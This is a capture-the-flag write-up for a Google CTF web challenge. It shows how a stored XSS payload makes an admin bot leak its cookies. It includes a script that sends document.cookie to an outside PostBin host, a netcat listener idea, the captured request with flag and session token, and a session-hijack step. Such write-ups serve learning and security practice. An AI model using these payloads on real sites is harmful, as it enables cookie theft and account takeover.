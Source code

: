 Government Agriculture Network (**web**)


    Well it seems someone can't keep their work life and their home 
    life separate. You vaguely recall on your home planet, posters put 
    up everywhere that said "Loose Zips sink large commercial 
    properties with a responsibility to the shareholders." You wonder 
    if there is a similar concept here.

    Using the credentials to access this so-called Agricultural 
    network, you realize that SarahH was just hired as a vendor or 
    contract worker and given access that was equivalent. You can only 
    assume that Vendor/Contractor is the highest possible rank bestowed 
    upon only the most revered and well regarded individuals of the 
    land and expect information and access to flow like the Xenovian 
    acid streams you used to bathe in as a child.

    The portal picture displays that small very attractive individual 
    whom you instantly form a bond with, despite not knowing. You must 
    meet this entity! Converse and convince them you're meant to be! 
    After a brief amount of time the picture shifts into a biped 
    presumably ingesting this creature! HOW DARE THEY. You have to save 
    them, you have to stop this from happening. Get more information 
    about this Gubberment thing and stop this atrocity.

    You need to get in closer to save them - you beat on the window, 
    but you need access to the cauliflower's host to rescue it.


URL is given: https://govagriculture.web.ctfcompetition.com/

Opening it in browser shows us a simple web form with text field and 
`Submit` button, quick glance to web page source HTML tells us that 
there are nothing special.
Trying to post something leads to the message:

    Your post was submitted for review. Administator will take a look shortly. 

Well, if *administrator* will open and look on every owr post, then it 
is Cross-Site-Scripting (XSS) problem for sure, and all what we need is 
to send some specially crafted message that will do some useful thing 
being *looked* (*opened* in web browser) by Administrator. Basically it 
is a text that contains javascript. This javascript will be executed by 
Administrator's browser and hence have access to some interesting data 
like cookies. For example, we can enforce Administrator's browser to 
try to load image from other site and embed in URL value of 
`document.cookie`. There will be no image at that URL, but it will too 
late, the request with data already will be captured.
But how can we see this request? One way is to open listening tcp 
socket (`nc -l 12345`) and crafting URL to fake image like 
`"http://<our-external-ip>:12345/img.png?cookie="+document.cookie` and 
see the request in terminal. But what if we have no external IP, or 
have connection via uncontrolled strict firewall or just do not want to 
open our port for incoming connections?
There is good web service for this situation that I saw on other's 
write-ups: [PostBin](https://postb.in). It is free and extremely easy 
to use. Register some "bin" and look for requests to it.

Ok, back to CTF, let's try simpliest thing, probably copy-pasted from 
Wikipedia or first page Googled for "XSS examples":

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

Yes, here it is:

    Bin '1561479835927-8693528019357'

    [Req '1561480065527-6931422839406' : 104.155.55.51]
    GET /1561479835927-8693528019357 2019-06-25T16:27:45.527Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+img%3Dnew+Image%28%29%3B%0D%0Aimg.src%3D%22https%3A%2F%2Fpostb.in%2F1561479835927-8693528019357%3Fcookie%3D%22%2Bdocument.cookie%3B%0D%0A%3C%2Fscript%3E
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV

    Body
    
    
And the flag is

**CTF{8aaa2f34b392b415601804c2f5f0f24e}**

What if we take Admin's session key? It can be done in different ways 
depending on your browser. For me the simpliest thing was to open 
Firefox's WebConsole and just write to it:

    document.cookie="session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV"

Then click to the link "Admin".
Nothing interesting, just the same flag in plain text. But at least 
we tried...

(But it seems like there is second flag here. It will be future work)

